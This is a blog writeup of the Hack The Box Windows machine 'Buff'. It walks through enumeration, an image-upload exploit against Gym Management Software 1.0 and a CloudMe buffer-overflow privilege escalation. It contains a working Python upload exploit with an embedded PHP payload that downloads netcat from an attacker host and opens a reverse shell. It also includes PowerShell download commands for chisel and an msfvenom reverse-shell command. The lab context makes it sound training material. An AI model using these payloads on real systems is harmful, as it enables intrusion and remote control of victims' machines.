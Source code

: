 /*---
permalink: /portfolio/htb_windows/
author: Rick Theeuwes

defaults:
  # _pages
  - scope:
      path: ""
      type: pages
    values:
      layout: single
      author_profile: true
toc: true
title: Buff
---*/

# Windows Hack The Box Writeup for Buff

## Enumeration

As always, we start of with an nmap:

```bash
sudo nmap 10.10.10.198 -p 7680,8080 -sC -sV -oN nmap.txt
```

Before this command I ran `nmap 10.10.10.198 -p-` to get the ports 7680 and 8080. The flag `-sC` stands for default enum-scripts, and the `-sV` flag is for the version enumeration scripts. `-oN` states that all the text-results should be saved to the file named `nmap.txt`.

With the result:

```bash
# Nmap 7.80 scan initiated Tue Sep  1 11:06:01 2020 as: nmap -p 7680,8080 -sC -sV -oN nmap.txt 10.10.10.198
Nmap scan report for 10.10.10.198 (10.10.10.198)
Host is up (0.091s latency).

PORT     STATE SERVICE    VERSION
7680/tcp open  pando-pub?
8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Sep  1 11:07:12 2020 -- 1 IP address (1 host up) scanned in 71.03 seconds
```

I don't know what `pando-pub` is, so let's take a look at the website first. It appears to be Gym-management software.

![gym](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/gym.png)

Alright, let's take a look around.

![contacts](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/contact.png)

A software name and version, perfect! So, we are dealing with `Gym Management Software 1.0` here. That does not sound secure, let's see if anyone already found an exploit:

```bash
searchsploit Gym Management
```

![searchsploit](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/searchsploit.png)

It appears a problem with filtering in a picture upload, in `upload.php`. If we put some image magic bytes in front of a php-script, it will accept it and we can run the php-script. Running the exploit found on exploit-db gives us this weird pseudo-shell, which sends a new request for every command. This is not usefull, so we have to edit it.

![pseudo](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/psuedo.png)

So, I modified it to this:

```python
import requests, sys, urllib, re

if __name__ == "__main__":
        SERVER_URL = 'http://10.10.10.198:8080/'
        UPLOAD_DIR = 'upload.php?id=shel'
        UPLOAD_URL = SERVER_URL + UPLOAD_DIR
        s = requests.Session()
        s.get(SERVER_URL, verify=False)
        png     = {
                'file': 
                  (
                    'kaio-ken.php.png', 
                    '\x89\x50\x4e\x47\x0d\x0a\x1a \n <?php echo shell_exec("powerShell (New-Object System.Net.WebClient).DownloadFile(\'http://10.10.14.16/nc.exe\' \'nc.exe\'); 2>&1; ./nc.exe -e cmd.exe 10.10.14.16 8090"); ?>',
                    'image/png', 
                    {'Content-Disposition': 'form-data'}
                  ) 
        }
        fdata   = {'pupload': 'upload'}
        r1 = s.post(url=UPLOAD_URL, files=png, data=fdata, verify=False)
        print r1.text

```

This payload sends a file upload to the victim with a php-script. This script executes a `powershell` command, to download netcat (`nc.exe`) and execute it with `cmd.exe` to my kali. This generates a reverse shell and allows me to do much more.

## Exploitation

In order to execute the script, we navigate to `http://10.10.10.198:8080/upload/shel.php`, this executes the uploaded php-script and allows us to get the shell. We do need to have a python-webserver running so the victim can download netcat and we need to have a netcat listener to catch it.

![shell](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/shell_win.png)

And there it is, a reverse shell!
This also gives us access to the `user.txt` file, located in `C:\Users\shaun\Desktop\user.txt`

## Privelege escaltion

So, how do we go from here? Well, after looking around shaun's home folder, I found `CloudMe_1112.exe` in his Downloads folder. This means that `Cloud Me` is installed, with version number `1112`, or `1_11_2`. This version is vulnerable to a buffer overflow.

![overflow](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/overflow.png)

But, this is a python-based exploit, so we cannot run this on the victim. To run this exploit, we need a reverse proxy, so we can use the locally open port. I used (`chisel`)[https://github.com/jpillora/chisel] for the proxy.

```bash
#kali
./chisel server --port 9002 --reverse

#victim
powerShell (New-Object System.Net.WebClient).DownloadFile('http://10.10.14.2/chisel.exe','C:\users\shaun\downloads\chisel.exe');
.\chisel.exe client 10.10.14.2:9002 R:8888:127.0.0.1:8888
```

Okay, now we have our reverse connection we can generate and run the exploit. We use the first exploit (`48389.py`), but we still need a payload for the victim to execute, let's generate that with `msfvenom`

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.2 LPORT=8091 EXITFUNC=thread -b "\x00\x0d\x0a" -f python
```

Still generates a byte-code payload for a reverse shell back to me. And after executing this we catch a shell on our listener!

![root](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/root_win.png)

Done!
